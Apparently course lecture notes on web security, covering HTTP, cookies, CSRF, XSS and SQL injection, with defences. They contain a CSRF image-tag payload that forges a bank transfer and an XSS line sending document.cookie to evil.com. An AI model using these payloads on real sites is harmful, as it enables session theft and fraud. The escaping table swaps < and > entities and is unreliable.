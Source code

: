 $$
% Display
\newcommand{\ds}{\displaystyle}
\newcommand{\ob}{\overbrace}
\newcommand{\ub}{\underbrace}
\newcommand{\code}{\texttt}

% Colours
\newcommand{\red}[1]{\textcolor{red}{#1}}
\newcommand{\redt}[1]{\textcolor{red}{\text{#1}}}
\newcommand{\blue}[1]{\textcolor{blue}{#1}}
\newcommand{\bluet}[1]{\textcolor{blue}{\text{#1}}}
\newcommand{\green}[1]{\textcolor{green}{#1}}
\newcommand{\greent}[1]{\textcolor{green}{\text{#1}}}

% Typefaces/Text-styles
\newcommand{\mc}{\mathcal}
\newcommand{\mf}{\mathfrak}
\newcommand{\b}{\mathbf}
\newcommand{\bs}{\boldsymbol}

% Fractions
\newcommand{\f}{\frac}

% Positioning
\newcommand{\l}{\left}
\newcommand{\m}{\middle}
\newcommand{\r}{\right}

% Logic
\newcommand{\n}{\not}
\newcommand{\eq}{\equiv}
\newcommand{\xor}{\oplus}

% Sets
\newcommand{\fa}{\forall}
\newcommand{\te}{\exists}
\newcommand{\empty}{\varnothing}
\newcommand{\set}[1]{\l\lbrace#1\r\rbrace}
\newcommand{\setb}[2]{\l\lbrace#1\ \m| \ #2\r\rbrace}
\newcommand{\bb}{\mathbb}
\newcommand{\R}{\bb{R}}
\newcommand{\N}{\bb{N}}
\newcommand{\Z}{\bb{Z}}
\newcommand{\Q}{\bb{Q}}
\newcommand{\C}{\bb{C}}

% Derivatives
\newcommand{\d}[1]{\mathrm{d}#1}
\newcommand{\deriv}[2]{\f{\d{#1}}{\d{#2}}}
\newcommand{\pderiv}[2]{\f{\partial #1}{\partial #2}}

% Sums/Integrals
\newcommand{\s}[3]{\sum_{#1}^{#2}#3}
\newcommand{\i}[4]{\int_{#1}^{#2}#3\ \d{#4}}

% Probability
\newcommand{\p}[1]{\bb{P}\l(#1\r)}
\newcommand{\cp}[2]{\p{#1\m|#2}}
\newcommand{\jp}[2]{\p{#1,#2}}
\newcommand{\e}[1]{\bb{E}\l[#1\r]}
\newcommand{\var}[1]{\text{Var}\l[#1\r]}
\newcommand{\sd}[1]{\text{SD}\l[#1\r]}
\newcommand{\cov}[2]{\text{Cov}\l[#1,#2\r]}

% Binomials
\newcommand{\ch}{\binom}
\newcommand{\pbin}[3][{}]{\l(#2 + #3\r)^#1}
\newcommand{\mbin}[3][{}]{\l(#2 - #3\r)^#1}

% Linear Algebra
\newcommand{\T}{\mathsf{T}}
\newcommand{\seq}[4][{}]{#2_{#3}#1 \ldots #1 #2_{#4}}
\newcommand{\rowv}[3]{\l(\seq[,]{#1}{#2}{#3}\r)}
\newcommand{\colv}[3]{\rowv{#1}{#2}{#3}^\T}
\newcommand{\sqpmat}[3][{}]{
    \begin{pmatrix}
		#2_{1{#1}1} & #2_{1{#1}2} & \cdots & #2_{1{#1}j} & \cdots & #2_{1{#1}#3} \\
		#2_{2{#1}1} & #2_{2{#1}2} & \cdots & #2_{2{#1}j} & \cdots & #2_{2{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{i{#1}1} & #2_{i{#1}2} & \cdots & #2_{i{#1}j} & \cdots & #2_{i{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{#3{#1}1} & #2_{#3{#1}2} & \cdots & #2_{#3{#1}j} & \cdots & #2_{#3{#1}#3} \\
	\end{pmatrix}
}
\newcommand{\sqmat}[3][{}]{
    \begin{matrix}
		#2_{1{#1}1} & #2_{1{#1}2} & \cdots & #2_{1{#1}j} & \cdots & #2_{1{#1}#3} \\
		#2_{2{#1}1} & #2_{2{#1}2} & \cdots & #2_{2{#1}j} & \cdots & #2_{2{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{i{#1}1} & #2_{i{#1}2} & \cdots & #2_{i{#1}j} & \cdots & #2_{i{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{#3{#1}1} & #2_{#3{#1}2} & \cdots & #2_{#3{#1}j} & \cdots & #2_{#3{#1}#3} \\
	\end{matrix}
}
\newcommand{\sqbmat}[3][{}]{
    \begin{bmatrix}
		#2_{1{#1}1} & #2_{1{#1}2} & \cdots & #2_{1{#1}j} & \cdots & #2_{1{#1}#3} \\
		#2_{2{#1}1} & #2_{2{#1}2} & \cdots & #2_{2{#1}j} & \cdots & #2_{2{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{i{#1}1} & #2_{i{#1}2} & \cdots & #2_{i{#1}j} & \cdots & #2_{i{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{#3{#1}1} & #2_{#3{#1}2} & \cdots & #2_{#3{#1}j} & \cdots & #2_{#3{#1}#3} \\
	\end{bmatrix}
}
\newcommand{\sqpmat}[3][{}]{
    \begin{pmatrix}
		#2_{1{#1}1} & #2_{1{#1}2} & \cdots & #2_{1{#1}j} & \cdots & #2_{1{#1}#3} \\
		#2_{2{#1}1} & #2_{2{#1}2} & \cdots & #2_{2{#1}j} & \cdots & #2_{2{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{i{#1}1} & #2_{i{#1}2} & \cdots & #2_{i{#1}j} & \cdots & #2_{i{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{#3{#1}1} & #2_{#3{#1}2} & \cdots & #2_{#3{#1}j} & \cdots & #2_{#3{#1}#3} \\
	\end{pmatrix}
}
\newcommand{\sqvmat}[3][{}]{
    \begin{vmatrix}
		#2_{1{#1}1} & #2_{1{#1}2} & \cdots & #2_{1{#1}j} & \cdots & #2_{1{#1}#3} \\
		#2_{2{#1}1} & #2_{2{#1}2} & \cdots & #2_{2{#1}j} & \cdots & #2_{2{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{i{#1}1} & #2_{i{#1}2} & \cdots & #2_{i{#1}j} & \cdots & #2_{i{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{#3{#1}1} & #2_{#3{#1}2} & \cdots & #2_{#3{#1}j} & \cdots & #2_{#3{#1}#3} \\
	\end{vmatrix}
}
\newcommand{\sqVmat}[3][{}]{
    \begin{Vmatrix}
		#2_{1{#1}1} & #2_{1{#1}2} & \cdots & #2_{1{#1}j} & \cdots & #2_{1{#1}#3} \\
		#2_{2{#1}1} & #2_{2{#1}2} & \cdots & #2_{2{#1}j} & \cdots & #2_{2{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{i{#1}1} & #2_{i{#1}2} & \cdots & #2_{i{#1}j} & \cdots & #2_{i{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{#3{#1}1} & #2_{#3{#1}2} & \cdots & #2_{#3{#1}j} & \cdots & #2_{#3{#1}#3} \\
	\end{Vmatrix}
}
$$

[TOC]

# Web security

#### HTTP requests

After establishing a TCP connection to a web server, a client can send **==HTTP requests==** to the server. These requests consist of:

- A start line consisting of:
  - a keyword such as `GET` or `POST`.
  - a route to request from the server.
  - HTTP version.
- Headers
- Body consisting of request data, e.g. parameters in the case of `POST` requests.

<p style="text-align:center;">
    <img src="./assets/http-request.png" width="70%"></img>
	<br>
	<p style="text-align:center;">
    <b>Figure 1</b>: A typical HTTP <code>POST</code> request. (<a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Messages">source</a>)
	</p>
</p>


**Note**: HTTP requests and responses are delivered via TCP over port 80. The standard HTTP does not provide any means of data encryption—meaning that an attacker can intercept the packets being sent between a client and server, and gain full access to any information that was being transmitted, acting as a man-in-the middle.

#### HTTP responses

After receiving and interpreting a request message, a server responds with a **==HTTP response==** message of similar structure to the request—consisting of:

- A start line consisting of:
  - a HTTP version
  - a status code
  - a status message
- Headers
- Message body (normally a HTML document)

<p style="text-align:center;">
    <img src="./assets/http-response.png" width="60%"></img>
	<br>
	<p style="text-align:center;">
    <b>Figure 2</b>: A typical HTTP response. (<a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Messages">source</a>)
	</p>
</p>

#### State in HTTP sessions

HTTP is **==stateless==**—when a client sends a request, the server sends back a response, but the server does not hold any information on previous requests.

However, this is an issue since lots of web applications require a client to access various pages before completing a specific task. In this case, the client state should be kept along all of those pages—how does the server know if two requests came from the same browse?

The idea to solve this is to insert some token into the page when it is requested, and pass the token back with the next request. There are two main approaches to maintaining a session between a web client and a web server:

- Use **hidden fields**.
- Use **cookies**.

##### Hidden fields

This approach involves placing a **==hidden field==** in a HTML form. This hidden field contains a session ID in all of the HTML pages sent to the client. The hidden field will be returned back to the server in the request (once the form is submitted).

| **Advantages**                       | **Disadvantages**                                            |
| ------------------------------------ | ------------------------------------------------------------ |
| All web browsers support HTML forms. | Requires careful and tedious programming effort—all of the pages must be dynamically generated to include this hidden field. |
|                                      | Session ends as soon as the browser is closed.               |

##### Cookies

A **==cookie==** is a small piece of information that a server sends to a browser and is stored inside the browser. A cookie has a name and a value, along with other attributes such as domain, path, expiration date, version number and comments.

The browser automatically includes the cookie in all subsequent requests made through the browser to the originating host of the cookie. Cookies are only **sent back by the browser to their originating host and not any other hosts**—the domain and path specify which server (and path) to return the cookie to.

A server can set the cookie's value to uniquely identify a client. Hence, cookies are commonly used for session and user management. In addition to session management, cookies can also be used to hold personalised information, or to help in online sales services, e.g. shopping cart.

| **Advantages** | **Disadvantages**                           |
| -------------- | ------------------------------------------- |
|                | Users may disable cookies in their browser. |

##### Setting cookies

Cookies are set on the client's when the server uses the `Set-Cookie` field in the HTTP header of its response. A cookie has several attributes:

- `name`: The name-value of the cookie.
- `expires`: When to delete the cookie.
- `domain` and `path`: Tells the browser what website the cookie belongs to. 
- `Secure`: Whether to send the cookie.
- `HttpOnly`: If enabled, scripting languages cannot access or manipulate the cookie.

##### Cookie domains and hosts

A cookie is valid for the domain it is set for, and all its subdomains.

A subdomain may access cookies set for a higher-level domain but not vice-versa.

> **Example**:
>
> - `mail.example.com` can access cookies set for `example.com`
> - `example.com` cannot access cookies set for `mail.example.com`

Hosts can access cookies set for their TLDs, but hosts can only set cookies one level up in the domain hierarchy.

> **Example**:
>
> - `one.mail.example.com` can access cookies set for `example.com`
> - `one.mail.example.com` cannot set cookies for `example.com`

A website can only set a cookie for domain that matched the domain of the HTTP response. Additionally, if the `domain` and `path` attributes of the cookie are not specified by the server, they default to the domain and path of the resource that was requested.

#### Security goals

Web applications should provide the same security guarantees as those required for standalone applications. 

The main web application **security goals** are:

- Visiting any website should not infect a computer with malware, or read and write files.

  **Defences**: 

  - Javascript is sandboxed—limits the scope of what a script can do.
  - Bugs are avoided in the browser's code.
  - Privilege separation.

- Visiting one website should not compromise sessions (or cookies in general) for another website.

  **Defences**:

  - Same-origin policy—each website is isolated from all other websites.

- Sensitive data stored on any website should be protected.

#### Session hijacking

**==Session hijacking==** is the exploitation of a valid computer session to gain unauthorised access to information or services in a computer system.

Sessions can be compromised in different ways—the most common are:

- **Session token theft vulnerabilities** - This type of vulnerability can occur when:
  - Session tokens are predictable.<br>*Ideally, cookies should be unpredictable*.
  - A website uses a mixture of HTTPS and HTTP pages, and a token is sent over HTTP.
  - Cross-site-scripting (XSS) vulnerabilities.
- **Cross-site request forgery (CSRF) vulnerabilities**

##### Cross-site request forgery (CSRF)

**==Cross-site request forgery (CSRF)==** forces a user to execute unwanted actions on a web application in which they are currently authenticated.

CSRF attacks target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request.

**Target**: A user who has an account on a vulnerable server.

**Attack**: 

1. Build an exploit URL.
2. Trick the victim into making a request to the vulnerable server—as if intentional.

**Attacker's tools**:

- Ability to get the user to click the exploit link.
- Ability to have the victim visit the attacker's server while logged in to the vulnerable server.

For a CSRF attack to work, it is essential that requests to the vulnerable server have predictable structure.

> **Example**: The website for a bank allows transfers for a currently logged in account. The transfer requests look like:
>
> ```http
> GET http://bank.com/transfer.do?acct=bob&amount=100 HTTP/1.1
> ```
>
> An attacker can craft a URL to transfer money from a victim's account to their own, and plant this URL on their own website:
>
> ```http
> http://bank.com/transfer.do?acct=attacker&amount=100000
> ```
>
> For example, as the source URL for an image, which will cause the client to attempt to load the image by requesting the resource from the server. This will perform a transfer in the background.
>
> ```html
> <img src="http://bank.com/transfer.do?acct=attacker&amount=100000" width="0" height="0">
> ```

###### CSRF defences

- **Check the referrer**: A HTTP request can contain a `referrer` field in its header. Checking the `referrer` field in the client's HTTP requests can prevent CSRF attacks.

  Ensuring that the HTTP request has come from the original site means that attacks from other sites will not function.

- **Include a secret**: Including a secret in every link or form can prevent CSRF attacks. This secret can be:

  - in the form of a hidden form field
  - in the form of a custom HTTP header
  - encoded directly in the URL

  It is essential that this secret is **unpredictable**. This means that it can also have the same value as the session token.

- **Set the `SameSite` cookie attribute**: This attribute prevents cookies from being sent in cross-site requests. However, this is a very recent standard and might not be supported by all browsers.

##### Cross-site scripting

###### Accessing the DOM

The **==Document Object Model (DOM)==** is an interface of HTML elements (including cookies) to the outside world.

The API for the `document` or `window` elements can be used to manipulate the document itself or to get at the children of that document.

> **Example**:
>
> - Display an alert message by using the `alert()` function from the `window` object:
>
> ```html
> <body onload="window.alert('welcome to my page!');")></body>
> ```
>
> - Display all the cookies associated with the current document in an alert message:
>
> ```html
> <body onload="window.alert(document.cookie);")></body>
> ```
>
> - Send all the cookies associated with the current document to the `evil.com` server if `x` points to a non-existent image:
>
> ```html
> <img src=x onerror="this.src='http://evil.com/exploit.php?'+document.cookie"></img>
> ```

###### Same-origin policy (SOP)

The **==same-origin policy (SOP)==** prevents a malicious script on one page from obtaining access to sensitive data on another webpage through that page's DOM—each origin is kept isolated (**sandboxed**) from the rest of the web.

An **==origin==** is defined by its **scheme**, its **host**, and the **port** of a URL.

- The SOP restricts the access to the DOM of a web resource to scripts loaded from the same origin.
- Under the SOP, a browser permits scripts contained in a first webpage to access data in a second webpage, but only if both webpages have the same origin.
- Cross-site HTTP requests initiated from within scripts are subject to SOP restriction for security reasons.

###### Cross-site scripting attacks

**==Cross-site scripting (XSS) attacks==** are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites.

The goal of the attacker is to insert code into the browser under the guise of conforming to the same-origin policy:

1. A website $S_1$ provides a malicious script.
2. The attacker tricks the vulnerable server $S_2$ to send the attacker's script to the target victim's browser.
3. The victim's browser believes that the script's origin is $S_2$.
4. The malicious script runs with $S_2$'s access privileges.

XSS attacks can generally be categorised into two categories **stored** and **reflected**.

###### Stored XSS attacks

**==Stored XSS attacks==** are those where the injected script is **permanently stored on the target server**, such as in a database, in a message forum, visitor log, comment field, etc. The victim then retrieves the malicious script from the server when it requests the stored information.

###### Reflected XSS attacks

**==Reflected XSS attacks==** are those where the injected script is **reflected off the web server**, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request.

Reflected attacks are typically delivered to victims via another route, such as in an email or on some other website.

The key to the reflected XSS attack is to find a good web server that will echo the user input back in the HTML response.

> **Example**:
>
> Input from `eve.com`:
>
> ```http
> http://vulnerabletoreflextedXSS.com/search.php?term=hello
> ```
>
> Result from `vulnerabletoreflectedXSS.com`:
>
> ```html
> <html>
> <title>Search results</title>
> <body>
>  Results for hello: 
>  ...
> </body>
> </html>
> ```

###### XSS defences

- **Escape/filter output**: Escape dynamic data before inserting it into HTML.

  > **Example**:
  > $$
  > \begin{matrix}
  > 	\texttt{<} & \to & \texttt{&gt;}\\
  > 	\texttt{>} & \to & \texttt{&lt;}\\
  > \end{matrix}
  > \qquad\qquad
  > \begin{matrix}
  > 	\texttt{&} & \to & \texttt{&amp;}\\
  > 	\texttt{"} & \to & \texttt{&quot;}\\
  > \end{matrix}
  > $$
  > Or remove any `<script>`, `</script>`, `<javascript>`, `</javascript>` tags.

  **Note**: This is error prone due to there being many ways to introduce Javascript.

  > **Example**:
  >
  > ```html
  > <div style="background-image:url(javascript:alert('JavaScript'))"></div>
  > ```

- **Input validation**: Check that inputs (headers, cookies, query strings, form fields and hidden fields) are of expected form.

- **==Content Security Policy (CSP)==**: CSP is an added layer of security that helps to detect XSS and data injection attacks. This works by having the server supply a whitelist of scripts that are allowed to appear on the page.

- **`Http-Only` cookie attribute**: If enabled, scripting languages cannot access or manipulate the cookie.

#### Server-side attacks

**==Server-side attacks==** are attacks launched directly from an attacker (the client) to a listening service—most commonly a server.

#### Injection attacks

**==Injection attacks==** such as SQL, OS, and LDAP injection occur when untrusted data is sent to an interpreter as part of a command or query. The attacker's hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorisation.

##### Command injection

**==Command injection==** is a web security vulnerability that allows an attacker to execute arbitrary operating system commands on the server that is running an application, and typically fully compromise the application and all its data.

###### Defences

- Include input validation, input escaping and sanitising, and restricting the power of an API.
- Separate the data and code channels—the web server should be operating with the most restrictive permissions as possible: read, write and execute permissions only to necessary files.

##### SQL injection

**==SQL injection==** works similarly to command injection—but rather than code being injected to execute arbitrary operating system commands, the code manipulates SQL commands.

###### Defences

- **Sanitise input** before using it to construct database queries.

- **Prepared statements**.

  The idea behind prepared statements is that the query and the data should be sent to the server separately.

  This works by creating a template of the SQL query, in which data values are substituted. This helps by ensuring that the untrusted value is not interpreted as a command.

  > **Example**:
  >
  > ```php
  > $result = pg_query_params(
  > conn,
  > "SELECT * from user_accounts  WHERE username = $1 AND password = $2",
  > array($GET['user'], $GET['pwd'])
  > );
  > ```

# Resources

- *Myrto Arapinis, Markulf Kohlweiss, Kami Vaniea, Roberto Tamassia, Aggelos Kiayias (University of Edinburgh)*<br/>[Computer Security (INFR10067)](http://www.drps.ed.ac.uk/18-19/dpt/cxinfr10067.htm)
- *Mozilla Corporation*<br/>[HTTP Messages](https://developer.mozilla.org/en-US/docs/Web/HTTP/Messages)